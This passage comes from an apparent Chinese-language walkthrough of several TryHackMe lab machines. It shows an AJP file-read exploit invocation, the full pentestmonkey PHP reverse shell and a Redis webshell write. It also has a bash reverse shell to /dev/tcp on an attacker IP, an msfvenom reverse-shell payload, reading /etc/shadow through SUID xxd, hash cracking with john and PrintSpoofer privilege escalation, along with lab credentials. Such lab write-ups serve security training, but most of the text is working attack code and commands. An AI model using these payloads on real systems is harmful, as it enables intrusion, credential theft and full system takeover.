    parser.add_argument('-X', help='Sets the method (default: %(default)s).', default='GET',
                        choices=['GET', 'POST', 'HEAD', 'OPTIONS', 'PROPFIND'])
    parser.add_argument('-d', '--data', nargs=1, help='The data to POST')
    parser.add_argument('-o', '--out-file', help='write response to file')
    parser.add_argument('--debug', action='store_true', default=False)

    args = parser.parse_args()
    debug = args.debug
    ajpShooter(args).shoot()
```

```plain
python ajpShooter.py http://10.10.218.249 8009  /WEB-INF/web.xml read
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223033-f5da7724-beb2-1.png)

得到 ssh 连接的账号密码

```plain
skyfuck:8730281lkjlkjdqlksalks
```

finalshell 连一下 getshell

### 考察 gpg 解密

ls 看一下~目录有什么内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223038-f90c1754-beb2-1.png)

发现有一个 asc 文件，还有一个 pgp 文件，我们可以考虑 asc 文件就是 credential 文件经过 gpg 加密后的数据，可以爆破一波

```plain
gpg2john tryhackme.asc > thm.txt
john --wordlist=/usr/share/wordlists/rockyou.txt thm.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223044-fcce3908-beb2-1.png)

得到 passwd，现在我们导入密钥文件

```plain
tryhackme/alexandru
```

我们还有一个 pgp 文件，需要导入一下刚刚的密钥

```plain
pgp --import tryhackme.asc
gpg --import tryhackme.asc
gpg --decrypt crendential.pgp
```

得到

```plain
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

之后登录一下 merlin 用户

sudo 提取 zip，成功提权

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223052-0129b5c2-beb3-1.png)

## RootMe

## Scan the machine, how many ports are open?

```plain
masscan -p 0-65535 --rate=100000 10.10.3.51
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223137-1c0c0eb2-beb3-1.png)

```plain
80/22
```

## What version of Apache is running?

nmap 扫一下

```plain
nmap -sV -p 80,22 -O -T4 10.10.92.61
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223142-1f17f904-beb3-1.png)

## Find directories on the web server using the GoBuster tool.

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223146-2154e7f4-beb3-1.png)

```plain
gobuster dir -e -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,zip,html -u 10.10.92.61
```

万能 php 反弹 shell

```plain
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();

    if ($pid == -1) {
        printit("ERROR: Can't fork");
        exit(1);
    }

    if ($pid) {
        exit(0);  // Parent exits
    }

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
        printit("Error: Can't setsid()");
        exit(1);
    }

    $daemon = 1;
} else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
        printit("ERROR: Shell connection terminated");
        break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
        printit("ERROR: Shell process terminated");
        break;
    }

    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
        if ($debug) printit("SOCK READ");
        $input = fread($sock, $chunk_size);
        if ($debug) printit("SOCK: $input");
        fwrite($pipes[0], $input);
    }

    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
        if ($debug) printit("STDOUT READ");
        $input = fread($pipes[1], $chunk_size);
        if ($debug) printit("STDOUT: $input");
        fwrite($sock, $input);
    }

    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
        if ($debug) printit("STDERR READ");
        $input = fread($pipes[2], $chunk_size);
        if ($debug) printit("STDERR: $input");
        fwrite($sock, $input);
    }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
    if (!$daemon) {
        print "$string\n";
    }
}

?>
```

后缀检测 fuzz

```plain
php
php2
php3
php4
php5
php6
php7
phps
phps
pht
phtm
phtml
pgif
shtml
htaccess
phar
inc
hphp
ctp
module
```

利用万能 php 反弹 shell getshell

## res

信息搜集，masscan 发现 80,6379 两个端口

nmap 详细扫描，发现一个 redis 数据库

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223216-33a00a24-beb3-1.png)

## redis 服务 rce

可以利用 redis-tools 中的 redis-cli 进行连接 redis

```plain
redis-cli -h 10.10.185.22 -p 6379
```

利用 redis 服务的命令进行 rce

```plain
config set dir /var/www/html
config set dbfilename redis.php
set test "<?php phpinfo();?>"
save
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223227-399eef12-beb3-1.png)

之后访问 redis.php 发现有 phpinfo 的界面

之后可以重新写个 shell 进行，

这里我正常写 bash 的 shell 不太行，调用了绝对路径才能弹 shell

```plain
set test “<?php exec(\”/bin/bash -c ‘bash -i > /dev/tcp/10.10.224.19/2333 0>&1’\”); ?>”
```

之后进入 shell，起一个标准的 pythonshell

suid 提权 xxd

先看一下/etc/shadow

```plain
xxd "/etc/shadow" | xxd -r
```

得到 vianka 的哈希，进行 john 爆破

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223231-3c3a077a-beb3-1.png)

之后切换用户，随便提权

## Relevant

## 信息收集

最好还是 nmap 收集，masscan 有点问题 (虽然收集的比较快)

```plain
masscan -p 0-65535 --rate=100000 10.10.199.4
```

```plain
nmap -p- 10.10.199.4
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223309-533330fa-beb3-1.png)

详细扫描看一下服务

```plain
nmap -p 80,135,139,445,3389,49663,49667,49779 -sV -O -T4 10.10.199.4
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223315-56698d6e-beb3-1.png)

挨个看一下，发现只有**80**和**49663**端口能访问服务，gobuster 扫描一下目录

80 扫不出东西，49663 扫出来一个 SMB 的共享目录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223318-584a8c6e-beb3-1.png)

## 漏洞利用

之后利用 smbclient 枚举 SMB 共享目录

```plain
smbclient -L \\10.10.199.4
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223323-5b40e0e4-beb3-1.png)

发现确实和我们猜测的一样，有 SMB 共享目录，登录一下

```plain
smbclient //10.10.117.216/nt4wrksv
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223327-5ddb451a-beb3-1.png)

get 一下 password.txt

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223332-607d44ee-beb3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223335-62ae91be-beb3-1.png)

base 解密一下

```plain
Bob - !P@$$W0rD!123
```

```plain
Bill - Juw4nnaM4n420696969!$$$
```

ssh 远程连接一下，这里傻逼了，忘了没开 20 端口，应该不能这么打，这是 windows 的渗透。。。。

应该从刚刚的 SMB 共享入手，SMB 和 linux 下的 ftp 差不多，ftp 怎么打 SMB 其实也差不多

利用**msfvenom**生成一个弹 windows 的 shell

```plain
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.37.127 LPORT=3333 -f aspx -o shell1.aspx
```

之后将我们生成的 shell.aspx put 到 SMB 共享目录

之后我们访问一下

```plain
http://10.10.220.5:49663/nt4wrksv/shell1.aspx
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223341-660c3b54-beb3-1.png)

成功谈到 windows 的 shell，windows 的命令和 linux 还是不一样的

```plain
cd /
dir
cd Users
cd Bob
cd Desktop
dir
more user.txt
```

得到 user.txt

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223346-68ebd226-beb3-1.png)

之后就是提权了

## 权限提升

在已获得的 shell 界面输入`whoami /priv`命令 查看当前用户在目标系统中的相关权限。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223350-6b223e18-beb3-1.png)

由上图可知 当前用户似乎启用了 SeImpersonatePrivilege 令牌权限，这意味着我们可以使用令牌模拟来提升权限；接下来我们需要在目标机上执行一个漏洞利用程序--下载[PrintSpoofer.exe](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)，并将该 exe 文件上传到目标机（可以通过 SMB 服务上传文件）。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223355-6e1cde34-beb3-1.png)

```plain
dir /s /b c:\ | find "PrintSpoofer64.exe"
```

全局搜索一下刚刚上传的这个 exe 的位置

```plain
cd c:\inetpub\wwwroot\nt4wrksv\
PrintSpoofer64.exe -i -c cmd
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223400-71429234-beb3-1.png)

成功提权
